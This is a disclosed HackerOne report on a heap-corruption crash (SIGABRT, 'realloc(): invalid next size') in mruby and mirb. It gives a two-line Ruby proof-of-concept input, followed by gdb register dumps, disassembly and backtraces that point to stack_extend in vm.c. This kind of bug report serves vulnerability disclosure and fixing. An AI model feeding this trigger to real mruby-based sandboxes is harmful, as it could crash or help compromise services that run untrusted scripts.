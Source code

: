 # SIGABRT - mirb and mruby

## Report Details
- **Report ID**: 214000
- **URL**: https://hackerone.com/reports/214000
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-16T19:48:59.159Z
- **Disclosed**: 2017-05-13T21:31:30.463Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test.rb):

	def method_missing(m,*)e self.ff||=00end
	e

Debug - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mirb
	Reading symbols from ./mirb...done.
	(gdb) r test.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mirb test.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing
	*** Error in `/home/x/Desktop/test/mruby/bin/mirb': realloc(): invalid next size: 0x0000000000710cb0 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) info reg
	rax            0x0	0
	rbx            0x69	105
	rcx            0xffffffffffffffff	-1
	rdx            0x6	6
	rsi            0x2613	9747
	rdi            0x2613	9747
	rbp            0x7fffffffc2b0	0x7fffffffc2b0
	rsp            0x7fffffffbf18	0x7fffffffbf18
	r8             0x3062633031373030	3486458120173465648
	r9             0x75726d2f74736574	8462946700367193460
	r10            0x8	8
	r11            0x246	582
	r12            0x7fffffffc0c0	140737488339136
	r13            0x7	7
	r14            0x69	105
	r15            0x7	7
	rip            0x7ffff7744f79	0x7ffff7744f79 <__GI_raise+57>
	eflags         0x246	[ PF ZF IF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) disas
	Dump of assembler code for function __GI_raise:
	   0x00007ffff7744f40 <+0>:	mov    %fs:0x2d4,%eax
	   0x00007ffff7744f48 <+8>:	mov    %eax,%ecx
	   0x00007ffff7744f4a <+10>:	mov    %fs:0x2d0,%esi
	   0x00007ffff7744f52 <+18>:	test   %esi,%esi
	   0x00007ffff7744f54 <+20>:	jne    0x7ffff7744f88 <__GI_raise+72>
	   0x00007ffff7744f56 <+22>:	mov    $0xba,%eax
	   0x00007ffff7744f5b <+27>:	syscall 
	   0x00007ffff7744f5d <+29>:	mov    %eax,%ecx
	   0x00007ffff7744f5f <+31>:	mov    %eax,%fs:0x2d0
	   0x00007ffff7744f67 <+39>:	mov    %eax,%esi
	   0x00007ffff7744f69 <+41>:	movslq %edi,%rdx
	   0x00007ffff7744f6c <+44>:	movslq %esi,%rsi
	   0x00007ffff7744f6f <+47>:	movslq %ecx,%rdi
	   0x00007ffff7744f72 <+50>:	mov    $0xea,%eax
	   0x00007ffff7744f77 <+55>:	syscall 
	=> 0x00007ffff7744f79 <+57>:	cmp    $0xfffffffffffff000,%rax
	   0x00007ffff7744f7f <+63>:	ja     0x7ffff7744f9a <__GI_raise+90>
	   0x00007ffff7744f81 <+65>:	repz retq 
	   0x00007ffff7744f83 <+67>:	nopl   0x0(%rax,%rax,1)
	   0x00007ffff7744f88 <+72>:	test   %eax,%eax
	   0x00007ffff7744f8a <+74>:	jg     0x7ffff7744f69 <__GI_raise+41>
	   0x00007ffff7744f8c <+76>:	mov    %eax,%ecx
	   0x00007ffff7744f8e <+78>:	neg    %ecx
	   0x00007ffff7744f90 <+80>:	test   $0x7fffffff,%eax
	   0x00007ffff7744f95 <+85>:	cmove  %esi,%ecx
	   0x00007ffff7744f98 <+88>:	jmp    0x7ffff7744f69 <__GI_raise+41>
	   0x00007ffff7744f9a <+90>:	mov    0x387ec7(%rip),%rdx        # 0x7ffff7acce68
	   0x00007ffff7744fa1 <+97>:	neg    %eax
	   0x00007ffff7744fa3 <+99>:	mov    %eax,%fs:(%rdx)
	   0x00007ffff7744fa6 <+102>:	or     $0xffffffffffffffff,%rax
	   0x00007ffff7744faa <+106>:	retq   
	End of assembler dump.
	(gdb) x/x $rax
	0x0:	Cannot access memory at address 0x0

Backtrace - mirb
-------------------

	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff77821d4 in __libc_message (do_abort=do_abort@entry=1, fmt=fmt@entry=0x7ffff7890a10 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
	#3  0x00007ffff778cf37 in malloc_printerr (action=<optimized out>, str=0x7ffff788cc07 "realloc(): invalid next size", ptr=<optimized out>) at malloc.c:4996
	#4  0x00007ffff7790777 in _int_realloc (av=<optimized out>, oldp=0x710ca0, oldsize=<optimized out>, nb=<optimized out>) at malloc.c:4234
	#5  0x00007ffff7791e09 in __GI___libc_realloc (oldmem=0x710cb0, bytes=12288) at malloc.c:3029
	#6  0x000000000042ce50 in mrb_default_allocf (mrb=0x6b0010, p=0x710cb0, size=12288, ud=0x0) at /home/x/Desktop/test/mruby/src/state.c:60
	#7  0x0000000000434ff2 in mrb_realloc_simple (mrb=0x6b0010, p=0x710cb0, len=12288) at /home/x/Desktop/test/mruby/src/gc.c:201
	#8  0x0000000000435074 in mrb_realloc (mrb=0x6b0010, p=0x710cb0, len=12288) at /home/x/Desktop/test/mruby/src/gc.c:215
	#9  0x0000000000406489 in stack_extend_alloc (mrb=0x6b0010, room=8, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:161
	#10 0x000000000040659d in stack_extend (mrb=0x6b0010, room=8, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:181
	#11 0x000000000040a3c6 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b2d70, pc=0x71ed30) at /home/x/Desktop/test/mruby/src/vm.c:1297
	#12 0x000000000040847f in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d10, self=..., stack_keep=1) at /home/x/Desktop/test/mruby/src/vm.c:820
	#13 0x0000000000402b90 in main (argc=2, argv=0x7fffffffe088) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549

Debug - mruby
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mruby
	Reading symbols from ./mruby...done.
	(gdb) r test.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mruby test.rb
	*** Error in `/home/x/Desktop/test/mruby/bin/mruby': realloc(): invalid next size: 0x000000000071b1f0 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) info reg
	rax            0x0	0
	rbx            0x6a	106
	rcx            0xffffffffffffffff	-1
	rdx            0x6	6
	rsi            0x3b28	15144
	rdi            0x3b28	15144
	rbp            0x7fffffffd4a0	0x7fffffffd4a0
	rsp            0x7fffffffd108	0x7fffffffd108
	r8             0x3066316231373030	3487529259247284272
	r9             0x796275726d2f7473	8746682560625472627
	r10            0x8	8
	r11            0x246	582
	r12            0x7fffffffd2b0	140737488343728
	r13            0x7	7
	r14            0x6a	106
	r15            0x7	7
	rip            0x7ffff7744f79	0x7ffff7744f79 <__GI_raise+57>
	eflags         0x246	[ PF ZF IF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) x/x $rax
	0x0:	Cannot access memory at address 0x0

Backtrace - mruby
-------------------

	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff77821d4 in __libc_message (do_abort=do_abort@entry=1, fmt=fmt@entry=0x7ffff7890a10 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
	#3  0x00007ffff778cf37 in malloc_printerr (action=<optimized out>, str=0x7ffff788cc07 "realloc(): invalid next size", ptr=<optimized out>) at malloc.c:4996
	#4  0x00007ffff7790777 in _int_realloc (av=<optimized out>, oldp=0x71b1e0, oldsize=<optimized out>, nb=<optimized out>) at malloc.c:4234
	#5  0x00007ffff7791e09 in __GI___libc_realloc (oldmem=0x71b1f0, bytes=12288) at malloc.c:3029
	#6  0x000000000042a0b8 in mrb_default_allocf (mrb=0x6af010, p=0x71b1f0, size=12288, ud=0x0) at /home/x/Desktop/test/mruby/src/state.c:60
	#7  0x000000000043225a in mrb_realloc_simple (mrb=0x6af010, p=0x71b1f0, len=12288) at /home/x/Desktop/test/mruby/src/gc.c:201
	#8  0x00000000004322dc in mrb_realloc (mrb=0x6af010, p=0x71b1f0, len=12288) at /home/x/Desktop/test/mruby/src/gc.c:215
	#9  0x0000000000406261 in stack_extend_alloc (mrb=0x6af010, room=8, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:161
	#10 0x0000000000406375 in stack_extend (mrb=0x6af010, room=8, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:181
	#11 0x000000000040a19e in mrb_vm_exec (mrb=0x6af010, proc=0x6b1d40, pc=0x71de10) at /home/x/Desktop/test/mruby/src/vm.c:1297
	#12 0x0000000000408257 in mrb_vm_run (mrb=0x6af010, proc=0x6b1d70, self=..., stack_keep=0) at /home/x/Desktop/test/mruby/src/vm.c:820
	#13 0x000000000041068f in mrb_top_run (mrb=0x6af010, proc=0x6b1d70, self=..., stack_keep=0) at /home/x/Desktop/test/mruby/src/vm.c:2617
	#14 0x0000000000445896 in mrb_load_exec (mrb=0x6af010, p=0x70be80, c=0x70aad0) at /home/x/Desktop/test/mruby/mrbgems/mruby-compiler/core/parse.y:5760
	#15 0x000000000044592c in mrb_load_file_cxt (mrb=0x6af010, f=0x70bac0, c=0x70aad0) at /home/x/Desktop/test/mruby/mrbgems/mruby-compiler/core/parse.y:5769
	#16 0x0000000000402415 in main (argc=2, argv=0x7fffffffe078) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227

## Attachments
- test.rb
